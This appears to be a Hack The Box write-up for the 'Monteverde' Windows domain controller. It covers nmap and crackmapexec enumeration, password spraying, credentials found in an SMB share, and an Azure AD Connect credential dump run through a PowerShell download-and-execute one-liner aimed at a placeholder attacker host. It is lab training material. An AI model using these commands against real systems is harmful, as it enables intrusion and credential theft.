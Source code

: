 # HTB Monteverde

Basic nmap scan:
```
Nmap scan report for 10.10.10.172
Host is up (0.059s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49676/tcp open  unknown
49697/tcp open  unknown
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 141.82 seconds
          Raw packets sent: 196673 (8.654MB) | Rcvd: 430 (22.312KB)
```

Aggressive nmap scan:
```
Nmap scan report for 10.10.10.172
Host is up (0.11s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
53/tcp  open  domain        Simple DNS Plus
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-03-30 22:53:33Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|  311: 
|_    Message signing enabled and required
| smb2-time: 
|  date: 2023-03-30T22:53:49
|_  start_date: N/A
TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1  71.54 ms  10.10.16.1
2  132.97 ms 10.10.10.172
NSE: Script Post-scanning.
Initiating NSE at 16:54
Completed NSE at 16:54, 0.00s elapsed
Initiating NSE at 16:54
Completed NSE at 16:54, 0.00s elapsed
Initiating NSE at 16:54
Completed NSE at 16:54, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.09 seconds
          Raw packets sent: 2080 (95.204KB) | Rcvd: 52 (2.872KB)
```

I ran an LDAPsearch query and obtained a ton of information.:

![](./_resources/HTB_Monteverde.resources/ldapsearch_results.txt)

I also obtained the list of users here with CME:
```
└─$ crackmapexec smb 10.10.10.172 --users                                           
SMB        10.10.10.172    445    MONTEVERDE      [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB        10.10.10.172    445    MONTEVERDE      [-] Error enumerating domain users using dc ip 10.10.10.172: NTLM needs domain\username and a password
SMB        10.10.10.172    445    MONTEVERDE      [*] Trying with SAMRPC protocol
SMB        10.10.10.172    445    MONTEVERDE      [+] Enumerated domain user(s)
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\Guest                          Built-in account for guest access to the computer/domain
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\AAD_987d7f2f57d2              Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\mhope                         
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\SABatchJobs                   
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\svc-ata                       
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\svc-bexec                     
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\svc-netapp                     
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\dgalanos                       
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\roleary                       
SMB        10.10.10.172    445    MONTEVERDE      MEGABANK.LOCAL\smorgan
```

I was able to login with a null session with RPCclient and query information.:
![](./_resources/HTB_Monteverde.resources/image.png)

I got stuck and had to look for a nudge by checking a WT. However, I realized, I needed to try password spraying. I can use CME and try the username as the password for each user.

In performing a dictionary attack on the user SABatchJobs, I found the username is the password.:
![](./_resources/HTB_Monteverde.resources/image.1.png)
Credentials:
```
Uname: SABatchJobs
Passwd: SABatchJobs
```

Now I can access the SMB shares as shown below:
![](./_resources/HTB_Monteverde.resources/image.2.png)
I did not find anything in the azure\_uploads, IPC$ or any other directories except for one. In checking the users$ directory, I found that the mhope user had an azure.xml file which I downloaded with the get command. Upon inspecting it, I found another password.:
```
─$ cat azure.xml 
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```
Since this was under Mike Hope's directory, I will note him as the user to try in this case.
```
Uname: mhope
Passd: 4n0therD4y@n0th3r$
```

I was now able to winrm into the machine with the above credentials with evil-winrm.:
![](./_resources/HTB_Monteverde.resources/image.3.png)

I found the user.txt hash on Mike's Desktop directory.:
![](./_resources/HTB_Monteverde.resources/image.4.png)

Next, I found the following file which shows an email address with null credentials.:
![](./_resources/HTB_Monteverde.resources/image.5.png)

```
Uname: john@a67632354763outlook.onmicrosoft.com
Passwd: {NULL}
```

I realized this post has a good PoC that works well with abusing Azure AD in this instance specifically the Azure Connect.: <https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c>

I had the modify the code so reflect the walkthrough version by 0xdf by modifying the first line.:
![](./_resources/HTB_Monteverde.resources/image.6.png)

After uploading the file via a python server on my attacker machine I was also able to execute the script immediately using the awesome powershell one liner.:
```
powershell.exe IEX(New-Object Net.Webclient).DownloadString('http://[attacker IP]:[web server port]/Invoke-MS16032.ps1')
```

![](./_resources/HTB_Monteverde.resources/image.7.png)
Credentials:
```
Domain: MEGABANK.LOCAL
Uname: administrator 
Passwd: d0m@in4dminyeah!
```

I was then finally able to obtain Administrator privileges by using the above credentials in a new evil-winrm shell.:
![](./_resources/HTB_Monteverde.resources/image.8.png)

root.txt hash obtained!:
![](./_resources/HTB_Monteverde.resources/image.9.png)

**###ROOTED!!!###**
